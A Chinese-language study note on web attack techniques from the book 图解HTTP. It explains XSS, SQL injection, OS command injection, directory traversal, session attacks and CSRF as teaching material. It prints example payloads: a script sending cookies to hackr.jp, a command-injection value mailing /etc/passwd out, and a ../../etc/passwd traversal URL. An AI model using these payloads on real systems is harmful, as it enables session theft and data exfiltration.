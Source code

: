 ```yaml
---
title: 11.Web 的攻击技术
date: 2020-11-29 01:05:47
permalink: /pages/a5ee56/
categories: 
  - 计算机基础
  - 《图解HTTP》笔记

---
```


## 思维导图

> 思维导图来自： [霸天的前端笔记](https://www.zhihu.com/column/c_57862727)

![preview](./assets/img/v2-c15130d9bcc0d91811e94d97286362f8_r.jpg)

![preview](./assets/img/v2-f7acf7cc1fa50e5add19a5caa6d0cf7d_r.jpg)

![preview](./assets/img/v2-e1002463a98b27c74bde5dda9c855575_r-20201129010743975.jpg)

## 针对 Web 的攻击模式

![image-20201129012032325](./assets/img/image-20201129012032325.png)

**被动攻击的模式**：

![image-20201129012225331](./assets/img/image-20201129012225331.png)

**利用用户的身份攻击企业内部网络**

可以攻击企业内网

![image-20201129012336194](./assets/img/image-20201129012336194.png)

## 因输出值转义不完全引发的安全漏洞

### 什么是输出值不转义？

Web 应用的安全对策：

- 客户端验证：客户端(JavaScript)验证主要是尽早辨识输入错误，UI 体验的功能
- Web端验证
  - 输入值验证：业务逻辑检查 & 字符编码检查等
  - **输出值转义：转义不完全时，会因触发攻击者传入的攻击代码**

### 1. 跨站脚本攻击（Cross-Site Scripting，XSS）

**什么是XSS**：通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进行的一种攻击。

**XSS的后果**：

- 虚假输入表单骗取个人信息
- 窃取用户Cookie值
- 显示伪造的文章或文章

**XSS案例**：

1.表单骗取个人信息

```html
<div class="logo"> 
  <img src="/img/logo.gif" alt="E! 拍卖会" />
</div> 

<form action="http://example.jp/login" method="post" id="login">     
    <div class="input_id"> ID 
        <input type="text" name="ID" value="">
        <script>var f=document.getElementById("login");</script>
    </div>
</form>
<!-- input 后面带着 script 脚本，就不知不觉获取了信息了 --!>
```

2.Cookie 窃取攻击

```html
<script src=http://hackr.jp/xss.js></script>
```

```javascript
//文件: http://hackr.jp/xss.js
var content = escape(document.cookie); 
document.write("<img src=http://hackr.jp/?"); document.write(content); 
document.write(">");
// 通过这种方式，就以请求图片的方式，把自己的Cookie信息发送出去了。
```

### 2. SQL注入攻击（SQL Injection）

**SQL 注入** 是攻击者将 SQL 语句改变成开发者意想不到的形式以达到破坏结构的攻击。

**SQL注入的案例**：

**正常的请求**：`http://example.com/search?q=小米`

对应的SQL为 `select * from bookstort where author=小米 and flag=1 ` 

**SQL注入请求**：`http://example.com/search?q=小米 --`

对于SQL为 `select * from bookstort where author=小米 -- and flag=1`

由于SQL 中 `--` 是注释，就把后面的 flag 条件给省略了。

如果这个条件是一些保密信息的限制条件的话，就容易造成损失。

### 3. OS 命令注入攻击（OS Command Injection）

**OS命令攻击** 是通过 Shell 来调用操作系统命令。

**OS注入攻击的案例**:

```php
// php中发送邮件的一段代码
my $adr = $q->param('mailaddress'); 
open(MAIL, "| /usr/sbin/sendmail $adr");
```

正常是邮箱地址 `hack@example.jp`

OS注入是 `; cat /etc/passwd | mail hack@example.jp` ，拼接后就是

`| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp`

带入了系统的账户信息一起发送了

### 4. 邮件首部注入攻击（Mail Header Injection）

邮件首部注入是指通过向邮件首部 To 或 Subject 内任意添加非法内容发起的攻击。

### 5. 目录遍历攻击（Directory Traversal）

目录遍历攻击是指对本无意公开的文件目录， 通过非法截断其目录路径后，达成访问目的的一种攻击。案例如下:

```
http://example.com/read.php?log=0401.log # 正常
http://example.com/read.php?log=../../etc/passwd # 获取账户信息
```



## 因设置或设计上的缺陷引发的安全漏洞

- **强制浏览（Forced Browsing）**：强制浏览漏洞是指从安置在 Web 服务器的公开目录下的文件中，浏览那些原本非自愿公开的文件。

  比如对用户的私密照片没有做权限管理，使得任何人只要知道URL就可以访问。

- **不正确的错误消息处理（Error Handling Vulnerability）**: 一些Web应用的错误信息包含了对攻击者有利的信息。

- **开放重定向功能（Open Redirect）**：对指定的任意 URL 作重定向跳转，有可能导致用户被诱导到恶意Web网站

## 因会话管理疏忽引发的安全漏洞

- **会话劫持（Session Hijack）**：会话劫持是指攻击者通过某种手段拿到了用户的会 话 ID，并非法使用此会话 ID 伪装成用户，达到攻击的目的。

  获取 SessionID 的方式有：

  - 非正规的生成方法推测会话 ID
  - 窃听或 XSS 攻击
  - 会话固定攻击（Session Fixation）强行获取会话 ID：强迫用户使用自己固定的SID进行登录

- **跨站点请求伪造（Cross-Site Request Forgeries，CSRF）**：强制对 **已完成认证的用户** 进行非预期的个人信息或设定信息等某些状态更新。
  比如嵌入某些修改信息的URL，用户在不知觉的情况下就实现了修改的操作，网站也无法区分。

## 其他安全漏洞

### 密码破解

一般破解的手段：

- 试错法：穷举、字典攻击（其他Web网站的密码）
- 已加密密码进行破解：网站一般不会以明文存储密码，而是通过 散列函数 或 加盐的操作进行加密。此类的破解方式有：穷举、彩虹表、获取密钥

### 点击劫持

通过透明遮罩覆盖原先的图像

### DoS 攻击（Denial of Service attack）

**DoS 攻击**是一种让运行中的服务呈停止状态的攻击。服务器无法区分正常请求和攻击请求，使得服务瘫痪。

### 后门程序（Backdoor）

后门程序是指开发设置的隐藏入口，用于调试和测试使用。